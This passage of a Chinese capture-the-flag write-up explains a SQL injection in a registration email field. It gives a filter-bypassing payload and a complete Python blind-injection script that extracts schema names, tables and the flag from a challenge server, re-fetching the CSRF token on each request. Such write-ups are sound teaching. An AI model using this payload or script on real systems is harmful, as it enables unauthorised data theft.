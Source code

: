 `select id from user where email = 'your input email'`

结合前面所说的对输入邮箱email形式的验证，这里存在sql注入漏洞。我们设置邮箱为`test'/**/or/**/1=1#@test.com`，则拼接后的sql语句为：

`select id from user where email = 'test'/**/or/**/1=1#@test.com'`

可以看到成功注入。由于此处不能回显数据，因此采用盲注。回到`validate_username`
```
def validate_username(self, username):
    if re.match("^\[a-zA-Z0-9_\]+$", username.data) == None:
        raise ValidationError('username has invalid charactor!')
    user = mysql.One("user", {"username": "'%s'" % username.data}, \["id"\])
    if user != 0:
        raise ValidationError('Please use a different username.')
```
当查询为真时也即`user != 0`会出现信息`Please use a different username.`，结合这点构造出最后的exp.py：
```
import requests
from bs4 import BeautifulSoup

url = "http://39.107.32.29:20000/register"

r = requests.get(url)
soup = BeautifulSoup(r.text,"html5lib")
token = soup.find_all(id='csrf_token')\[0\].get("value")

notice = "Please use a different email address."
result = ""

database = "(SELECT/**/GROUP\_CONCAT(schema\_name/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/INFORMATION_SCHEMA.SCHEMATA)"
tables = "(SELECT/**/GROUP\_CONCAT(table\_name/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/INFORMATION\_SCHEMA.TABLES/**/WHERE/**/TABLE\_SCHEMA=DATABASE())"
columns = "(SELECT/**/GROUP\_CONCAT(column\_name/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/INFORMATION\_SCHEMA.COLUMNS/**/WHERE/**/TABLE\_NAME=0x666c616161616167)"
data = "(SELECT/**/GROUP_CONCAT(flllllag/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/flaaaaag)"

for i in range(1,100):
    for j in range(32,127):
        payload = "test'/**/or/**/ascii(substr("+  data +",%d,1))=%d#/**/@chybeta.com" % (i,j)
        print payload
        post_data = {
            'csrf_token': token,
            'username': 'a',
            'email':payload,
            'password':'a',
            'password2':'a',
            'submit':'Register'
        }
        r = requests.post(url,data=post_data)
        soup = BeautifulSoup(r.text,"html5lib")
        token = soup.find_all(id='csrf_token')\[0\].get("value")
        if notice in r.text:
            result += chr(j)
            print result
            break
```
由于在注册部分有csrf\_token，因此在每次submit时要记得带上，同时在每次返回的页面中取得下一次的csrf\_token。
